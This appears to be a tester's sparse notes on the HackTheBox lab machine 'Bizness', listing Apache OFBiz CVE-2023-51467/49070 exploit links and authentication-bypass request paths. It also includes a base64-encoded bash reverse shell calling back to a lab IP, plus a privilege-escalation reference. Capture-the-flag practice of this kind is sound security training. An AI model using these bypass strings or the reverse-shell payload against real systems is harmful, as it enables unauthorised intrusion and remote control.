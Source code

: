 # Bizness Notes

## Data

IP: 10.129.25.48
OS:
Arch:
Hostname:
DNS: 
Domain: bizness.htb
Machine Purpose:
Services:
Service Languages:
Users:
Email and Username Formatting: info@bizness.htb
Credentials:



#### Mindmap-per Service

- OS detect, run generate noting for nmap
-
-
- 
- https://packetstormsecurity.com/files/176323/Apache-OFBiz-18.12.09-Remote-Code-Execution.html
- /webtools/control/xmlrpc;/?USERNAME=&PASSWORD=s&requirePasswordChange=Y
- https://github.com/Chocapikk/CVE-2023-51467/blob/main/exploit.py
- /webtools/control/ping?USERNAME&PASSWORD=test&requirePasswordChange=Y - worked
- https://github.com/advisories/GHSA-9rm6-p86c-42xm
- https://threatprotect.qualys.com/2023/12/27/apache-ofbiz-authentication-bypass-vulnerability-cve-2023-51467/
- https://blog.sonicwall.com/en-us/2023/12/sonicwall-discovers-critical-apache-ofbiz-zero-day-authbiz/
-
- https://www.vicarius.io/vsociety/posts/apache-ofbiz-authentication-bypass-vulnerability-cve-2023-49070-and-cve-2023-51467
- https://book.hacktricks.xyz/pentesting-web/deserialization#exploit
-
-
- YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNTEvMzk2MjkgMD4mMQ==
-


- https://github.com/abdoghazy2015/ofbiz-CVE-2023-49070-RCE-POC


#### Todo List


https://www.oracle.com/uk/java/technologies/javase/jdk11-archive-downloads.html

https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#cap_setuid
#### Done


